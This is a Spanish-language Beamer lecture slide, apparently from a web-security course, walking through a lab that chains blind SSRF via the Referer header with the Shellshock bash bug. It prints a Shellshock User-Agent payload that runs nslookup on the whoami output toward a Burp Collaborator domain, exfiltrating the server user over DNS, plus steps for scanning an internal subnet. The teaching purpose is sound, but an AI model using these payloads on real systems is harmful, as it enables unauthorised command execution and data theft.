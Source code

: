 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{SSRF Ciego + Shellshock --- RCE (Lab 116)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Shellshock --- CVE-2014-6271
  \item Bug en bash: si una variable de entorno empieza por '() \{ :; \};' bash ejecuta el código que sigue.
  \item En servidores CGI, las cabeceras HTTP (User-Agent, Referer\dots{}) se convierten en variables de entorno.
  \item Si el servidor interno usa CGI + bash vulnerable $\rightarrow$ ejecución de comandos con la petición SSRF.
  \item Payload Shellshock en cabecera User-Agent
  \item \cmd{() \{ :; \}; /usr/bin/nslookup \$(whoami).BURP-COLLABORATOR.net}
  \item $\rightarrow$ Si el servidor es vulnerable, ejecuta nslookup con el resultado de whoami.
  \item $\rightarrow$ El Collaborator recibe una consulta DNS con el nombre del usuario $\rightarrow$ RCE confirmado.
  \item Lab 116 --- Flujo completo
  \item Paso 1: Identificar SSRF ciego vía Referer (igual que Lab 113).
  \item Paso 2: Escanear con Burp Intruder la red 192.168.0.0/24 por el puerto 8080.
  \item \cmd{Referer: http://192.168.0.1:8080/}
  \item $\rightarrow$ Comparar tiempos/tamaños para detectar el host activo.
  \item Paso 3: Añadir Shellshock en User-Agent apuntando al Collaborator:
  \item \cmd{User-Agent: () \{ :; \}; /usr/bin/nslookup}
  \item \cmd{\$(whoami).BURP-COLLABORATOR.net}
  \item \cmd{Referer: http://192.168.0.X:8080/}
  \item $\rightarrow$ El Collaborator recibe la query DNS $\rightarrow$ el usuario del proceso es exfiltrado.
  \item Shellshock afecta solo a servidores con CGI + bash \textless{} 4.3 patch 25 (2014). Aún hay sistemas sin parchear.
  \end{itemize}
\end{frame}
\end{document}
